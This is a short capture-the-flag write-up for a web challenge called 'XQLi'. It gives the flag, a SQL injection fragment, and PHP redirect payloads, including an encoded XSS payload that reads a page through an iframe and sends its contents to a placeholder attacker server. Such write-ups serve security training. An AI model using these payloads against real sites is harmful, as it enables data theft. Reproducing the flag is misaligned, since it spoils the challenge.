 # XQLi

**Description:**  What is my perfect crime? I break into Tiffany's at midnight. Do I go for the vault? No, I go for the chandelier. It's priceless. As I'm taking it down, a woman catches me. She tells me to stop. It's her father's business. She's Tiffany. I say no. We make......  
All that and he locked himself out the website that had a secret code to break into the place :/ . Help him find the code?

**Author:** [Az3z3l](https://twitter.com/Az3z3l)

**Short Solution:** 
 - For SQLI: `lcase('inKypinKy') as id from dual`
 - Creating UID: Host a webpage that has the following php code `header("location:http://web/user.php?session=1111-22222-1234&sub=submit%22);`
 - Retrieving Flag: Host a webpage that has the following php code `header("location:http://web/flag.php?session%3D%22%3E%3Ciframe+id%3D%22a%22+src%3D%22http%3A%2F%2Fweb%2Fflag.php%3Fsession%3D1111-22222-1234%26sub%3Dsubmit%22+onload%3Dwindow.location%3D%22<your_server>%3F%22%2Bbtoa%28document.getElementById%28%27a%27%29.contentWindow.document.body.innerText%29%3E%26sub%3Dsubmit%22%29%3B`

**Flag:** inctf{p3op13_persons_c7f_pe0p13_9986000}